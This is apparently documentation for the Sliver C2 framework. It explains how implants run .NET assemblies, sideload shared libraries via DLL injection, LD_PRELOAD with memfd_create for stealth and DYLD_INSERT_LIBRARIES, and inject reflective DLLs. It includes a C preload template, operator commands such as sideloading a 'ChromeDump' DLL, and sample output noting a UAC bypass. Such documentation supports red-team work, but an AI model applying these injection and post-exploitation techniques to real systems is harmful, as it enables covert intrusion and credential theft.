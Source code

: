 ## Sideloading Features

Sliver implants support three different ways of loading third party tools:

- `execute-assembly`
- `sideload`
- `spawndll`

## Known Limitations

Arguments passed to .NET assemblies and non-reflective PE extensions are limited to 256 characters. This is due to a limitation in the Donut loader Sliver is using. A workaround for .NET assemblies is to execute them in-process, using the `--in-process` flag, or a custom BOF extension like `inline-execute-assembly`. There is currently no workaround for non-reflective PE extension.

## Loading .NET Assemblies

This feature is only supported on Windows.

Using `execute-assembly`, one can run an arbitrary .NET assembly on a remote system via a Sliver implant. The implant will start a sacrificial process (`notepad.exe` by default, you can change this by using the `--process`) that will host a reflective DLL used to load the .NET CLR. The assembly will then be copied into this process and a new thread will start on the reflective DLL entrypoint, which will load and run the assembly in memory.

Here's an example with [Seatbelt](https://github.com/GhostPack/Seatbelt):

```
sliver (CONCRETE_STEEL) > execute-assembly -t 80 /tmp/Seatbelt.exe All
[*] Assembly output:

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
#####%######################  %%%..                       @////(((&%%%%%%%################
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                        &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,
                         #%%%%##,

=== Running System Triage Checks ===

=== Basic OS Information ===

  Hostname                      :  DESKTOP-0QQJ4JL
  Domain Name                   :
  Username                      :  DESKTOP-0QQJ4JL\lab
  ProductName                   :  Windows 10 Pro
  EditionID                     :  Professional
  ReleaseId                     :  1909
  BuildBranch                   :  19h1_release
  CurrentMajorVersionNumber     :  10
  CurrentVersion                :  6.3
  Architecture                  :  AMD64
  ProcessorCount                :  2
  IsVirtualMachine              :  True
  BootTime (approx)             :  5/19/2020 8:55:55 AM
  HighIntegrity                 :  False
  IsLocalAdmin                  :  True
    [*] In medium integrity but user is a local administrator- UAC can be bypassed.
...
```

## Shared Library Side Loading

The `sideload` command allows to load and run code in-memory (Windows/Linux) or via dropping a temporary file to disk (MacOS). On Windows, the DLL will be converted to a shellcode via [sRDI](https://github.com/monoxgas/sRDI) and injected into a sacrificial process.

On Linux systems, Sliver uses the `LD_PRELOAD` technique to preload a shared library previously written in a memory file descriptor using the `memfd_create` syscall. That way, no file is stored on disk, which grants the implant a bit of stealth. The shared library is preloaded in a sacrificial process, which is `/bin/ls` by default.

On MacOS systems, Sliver uses the `DYLD_INSERT_LIBRARIES` environment variable to preload a dynamic library into a program, chosen by the operator. The target program must allow unsigned libraries to be loaded that way.

No specific operation is performed by Sliver for Linux and Mac OS shared libraries, which means it's up to the operator to build their shared libraries to execute whenever they see fit. A good starting point would be using the `constructor` attribute for MacOS shared libraries, or adding a `.init_array` section for the Linux version.

Sliver will use the `LD_PARAMS` environment variable to pass arguments to the sideloaded libraries. Thus, the library can just read this environment variable to retrieve parameters and act accordingly.

Here's a starting point :

```c
#if __linux__
#include <stdlib.h>

void DoStuff();

static void init(int argc, char **argv, char **envp)
{
    // unset LD_PRELOAD to prevent sub processes from misbehaving
    unsetenv("LD_PRELOAD");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}
__attribute__((section(".init_array"), used)) static typeof(init) *init_p = init;
#elif __APPLE__
void DoStuff();

__attribute__((constructor)) static void init(int argc, char **argv, char **envp)
{
    // unset DYLD_INSERT_LIBRARIES to prevent sub processes from misbehaving
    unsetenv("DYLD_INSERT_LIBRARIES");
    // retrieve the LD_PARAMS value
    // unset LD_PARAMS if there's no need for it anymore
    unsetenv("LD_PARAMS");
    DoStuff();
}

#endif
```

Don't forget to unset the `LD_PRELOAD` or `DYLD_INSERT_LIBRARIES` environment variables, otherwise any sub process started by your shared library or host process will be preloaded with your shared library.

To side load a shared library, use the `sideload` command like this:

```
// Windows example
sliver (CONCRETE_STEEL) > sideload -e ChromeDump /tmp/chrome-dump.dll
// Linux example
sliver (CONCRETE_STEEL) > sideload -p /bin/bash -a "My arguments" /tmp/mylib.so
// MacOS example
sliver (CONCRETE_STEEL) > sideload -p /Applications/Safari.app/Contents/MacOS/SafariForWebKitDevelopment -a 'Hello World' /tmp/mylib.dylib
```

Please be aware that you need to specify the entrypoint to execute for Windows DLLs.

## Loading Reflective DLLs

Loading reflective DLLs is just a special case of side loading DLLs. To make things easier, the `spawndll` command allows you to inject reflective DLLs and run them in a remote process.

Here's an example with the `PsC` tool from [Outflank's Ps-Tools suite](https://github.com/outflanknl/Ps-Tools):

```
sliver (CONCRETE_STEEL) > spawndll /tmp/Outflank-PsC.dll blah
[*] Output:

--------------------------------------------------------------------
[+] ProcessName:         svchost.exe
    ProcessID:   2960
    PPID:        576 (services.exe)
    CreateTime:  19/05/2020 10:53
    Path:        C:\Windows\System32\svchost.exe
    ImageType:   64-bit
    CompanyName:         Microsoft Corporation
    Description:         Host Process for Windows Services
    Version:     10.0.18362.1

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49819
    Remote Addr:         40.67.251.132:443

--------------------------------------------------------------------
[+] ProcessName:         CONCRETE_STEEL.exe
    ProcessID:   7400
    PPID:        5440 (explorer.exe)
    CreateTime:  19/05/2020 10:54
    SessionID:   1
    Path:        C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    ImageType:   64-bit
    UserName:    DESKTOP-0QQJ4JL\lab
    Integrity:   Medium
    PEB Address:         0x0000000000352000
    ImagePath:   C:\Users\lab\Desktop\CONCRETE_STEEL.exe
    CommandLine:         "C:\Users\lab\Desktop\CONCRETE_STEEL.exe"

<-> Session:     TCP
    State:       ESTABLISHED
    Local Addr:  172.16.241.128:49687
    Remote Addr:         172.16.241.1:8888
```

Note that in this case, the entrypoint of the reflective DLL (`ReflectiveLoader`) expects a non NULL parameter, which is why we passed a dummy parameter `blah`.
